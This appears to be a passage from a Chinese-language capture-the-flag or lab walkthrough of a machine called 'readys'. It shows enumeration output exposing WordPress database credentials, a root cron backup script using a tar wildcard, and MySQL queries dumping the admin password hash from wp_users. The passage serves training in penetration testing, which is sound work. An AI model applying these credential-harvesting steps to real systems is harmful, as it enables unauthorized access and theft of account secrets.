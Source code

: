 ### WordPress 数据库密码

<img src="../Images/image-20230815213814475.png" alt="image-20230815213814475" style="zoom:80%;" />

```bash
╔══════════╣ Analyzing Wordpress Files (limit 70) 
-rw-r--r-- 1 alice alice 3194 Nov 16  2021 /var/www/html/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'karl' );
define( 'DB_PASSWORD', 'Wordpress1234' );
define( 'DB_HOST', 'localhost' ); 
```

查看计划任务的具体内容

```bash
redis@readys:/var/lib/redis$ cat /usr/local/bin/backup.sh 
#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
redis@readys:/var/lib/redis$ ls -al /usr/local/bin/backup.sh 
-rwxr-xr-x 1 root root 122 Nov 17  2021 /usr/local/bin/backup.sh
redis@readys:/var/lib/redis$ 

```

我当前的用户权限不能对这个文件进行修改，所以登录wordpress查看更多有用的信息.

### MySQL

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+

MariaDB [wordpress]> show tables;
| wp_users              |
+-----------------------+
MariaDB [wordpress]> select * from wp_users;
|  1 | admin      | $P$Ba5uoSB5xsqZ5GFIbBnOkXA0ahSJnb0 | admin         | test@test.com 
```
